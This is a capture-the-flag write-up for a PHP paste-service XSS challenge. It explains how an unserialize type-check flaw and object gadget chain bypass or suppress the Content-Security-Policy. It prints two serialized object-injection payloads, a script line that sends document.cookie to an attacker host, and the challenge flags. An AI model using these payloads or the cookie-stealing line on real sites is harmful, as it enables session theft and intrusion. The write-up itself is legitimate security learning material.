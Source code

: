 # CSP2 (and CSP3)

## Description
(CSP2) Shame on Shou if he uses CSP incorrectly. More shame on him if he solely uses CSP to prevent XSS.
(CSP3) The code is mostly same as CSP 2 but CSP.module is changed. 

## Overview
As the title suggests, this challenge is a XSS challenge that involves some kind of content security policy. This writeup is about an unintended solution.

The challenge is a paste service that echoes the provided HTML back out as is with a relatively strict CSP:
```
Content-Security-Policy: trusted-types 'none'; object-src 'none'; default-src 'none'; script-src $nonce; script-src-elem $nonce; script-src-attr $nonce; img-src 'self'; style-src $nonce;style-src-elem $nonce;style-src-attr $nonce; base-uri 'self'; report-uri /report_csp;
```

The source code is provided and is written in PHP. The code implements a simple framework along with the paste storage.

## Approach
The first thing I did was look at the CSP itself. The CSP uses a nonce to allow some scripts to run in the paste's page. These script tags are located after the user content, so my intial though was to use dangling markup. However, this turned out to not be possible because neither single or double quotes can capture the nonce.

Not seeing anything wrong with the CSP, I went through the code and quickly noticed that the input in the "user" parameter was directly deserialized (see [this](https://www.php.net/manual/en/function.unserialize.php)). However, there are some (ineffective) checks to make this harder. Immediately after being deserialized, the controlled object is checked to be of a certain type ("UserData"). In addition, all objects have an inherited `__wakeup` method that performs a simple type assertion on the object's properties based on their variable names.

The deserialize:
```php
$user = unserialize($_GET["user"]);
if (get_class($user) != "UserData") \ShouFramework\shutdown();
```

The type checker:
```php
public function __wakeup(){
    $this->type_checker();
}

private function type_checker(){
    $reflection = new ReflectionClass($this);
    $available_vars = $reflection->getProperties();
    foreach ($available_vars as $_ => $value) {
        $exploded_name = explode("_", $value->getName());
        if (count($exploded_name) <= 1) // The type will be ignored if the variable has a single word name.
            continue;
        $type = $exploded_name[count($exploded_name) - 1];
        if (gettype($value->getValue($this)) != $type){ // Note that for any object the type is just "object".
            echo "Program integrity violated\n";
            shutdown();
        }
    }
}
```

However, this type checker has a few limitations:
- The type of the variable is ignored if the name does not contain at least 1 underscore.
- The types of objects is not checked beyond that they are objects.
- We can add new properties with whatever name we want.

The main oversight can be considered that the type check does not realize that deserialized objects can contain additional properties not in their original class. From here I determined that deserialized was likely part of the solution and tried to identify gadgets to deserialize. As it turns out, the HTTP class (used for routes) works by handling its response upon being destructed.

```php
protected function destruct(){
    $this->handle_request();
}
```

(There are some other weird choices in the code like repeatedly hashing the content and user info, but it does not appear to be particularly relevant for the challenge, perhaps a red herring.)

## Creating a payload
My initial idea was to create a payload using the CatGetWithHash route. This route is interesting because it contains a \ShouFramework\CSP object whose properties we can control, one of which is the report url in the CSP. The deserialization payload is relatively simple and I wrote it by hand with some trial and error so I won't go into the process. Just note the top object is of type UserData and contains a new propety called "a" of type CatWithHashGet.

```
O:8:"UserData":2:{s:12:"token_string";s:1:"a";s:1:"a";O:14:"CatWithHashGet":3:{s:11:"user_object";O:8:"UserData":1:{s:12:"token_string";s:1:"a";}s:10:"csp_object";O:18:"\ShouFramework\CSP":1:{s:17:"report_uri_string";s:67:"a; script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'";}s:15:"template_object";O:23:"\ShouFramework\Template":0:{}}};
```

This payload adds script-src-elem to the end of the CSP which works [on latest Chrome](https://portswigger.net/research/bypassing-csp-with-policy-injection). The CSP in CSPv2 does not include script-src-elem, and I thought this was the intended solution because of how similar it is to the PayPal situation. However, the bot is running Firefox anyway so I could not get it to work. I then remembered that in PHP headers cannot be sent after data, so we can just first trigger the CatGet route which does not send the CSP at all! The normal paste route will then be triggered but silently fail set the CSP. As a bonus, the CatGet object is simpler.

```
O:8:"UserData":2:{s:12:"token_string";s:1:"a";s:1:"a";O:6:"CatGet":2:{s:11:"user_object";O:8:"UserData":1:{s:12:"token_string";s:1:"a";}s:15:"template_object";O:23:"\ShouFramework\Template":0:{}}};
```

## Putting it together
Now that the CSP is gone, we can just submit a paste with something like `<scipt>document.location='host/?'+btoa(document.cookie)</script>`, attach our payload in the "user" parameter, and send the URL to the bot. This solution works on both versions of the challenge since the updated one just tightens the CSP a bit.

Flags:

`we{237cb03d-85d3-4312-b0de-5e28e70abafd@r3p0rt_ur1_br3aK_CSP:(}`
`we{d36c47dc-b578-4736-92e0-2368894e6fbb@r3p0rt_ur1_even_13aks_nonce}`

I found out after solving that the intended solution was just setting the report URI to your server to leak the nonce, and the original unintended solution in CSPv2 was using script-src-elem. I also wasn't aware that chaining deserialized objects with properties has a more specific name than arbitrary deserialization: [POP](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection).
